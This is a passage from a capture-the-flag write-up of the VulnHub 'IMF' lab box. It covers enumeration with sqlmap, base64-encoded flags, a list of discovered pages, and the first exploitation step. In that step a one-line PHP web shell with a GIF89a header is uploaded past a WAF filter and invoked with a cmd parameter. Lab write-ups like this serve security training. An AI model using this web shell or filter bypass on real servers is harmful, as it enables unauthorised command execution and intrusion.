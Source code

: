 ![writeup.enumeration.steps.7.1](Box%20Write-ups/vulnhub.imf/screenshot09.png)  

8\. We fire up `sqlmap` on this URL and from the database dump, found a new page containing an image `whiteboard.jpg`. This image has a QR code that encodes the fourth flag:  
``` {.python .numberLines}
http://192.168.92.178/imfadministrator/images/whiteboard.jpg
  flag4{dXBsb2Fkcjk0Mi5waHA=}
    b64d "dXBsb2Fkcjk0Mi5waHA="
      uploadr942.php

```

![writeup.enumeration.steps.8.1](Box%20Write-ups/vulnhub.imf/screenshot10.png)  

![writeup.enumeration.steps.8.2](Box%20Write-ups/vulnhub.imf/screenshot11.png)  


### Findings
#### Open Ports
``` {.python .numberLines}
80/tcp  |  http  |  Apache httpd 2.4.18 ((Ubuntu))
```
#### Files
``` {.python .numberLines}
http://192.168.92.178:80/contact.php
http://192.168.92.178/index.php
http://192.168.92.178/js/ZmxhZzJ7YVcxbVl.js
http://192.168.92.178/js/XUnRhVzVwYzNS.js
http://192.168.92.178/js/eVlYUnZjZz09fQ==.min.js
http://192.168.92.178/imfadministrator/index.php
http://192.168.92.178/imfadministrator/cms.php?pagename=home
http://192.168.92.178/imfadministrator/images/whiteboard.jpg
http://192.168.92.178/imfadministrator/uploadr942.php
```

\newpage
## Phase #2: Exploitation
1\. The `http://192.168.92.178/imfadministrator/uploadr942.php` page has a file upload functionality. We tried different methods to evade the `CrappyWAF` filters and ended up using a minimal command execution page with GIF header and extension as the final payload. Once the file is uploaded, it's destination file name is leaked within HTML comments on the result page. We can use this uploaded file to get command execution:  
``` {.python .numberLines}
cat cmd.gif
  GIF89a
  <?php $out=$_GET["cmd"]; echo `$out`; ?>
http://192.168.92.178/imfadministrator/uploads/bf76ad6d6afc.gif?cmd=uname

```

![writeup.exploitation.steps.1.1](Box%20Write-ups/vulnhub.imf/screenshot12.png)  
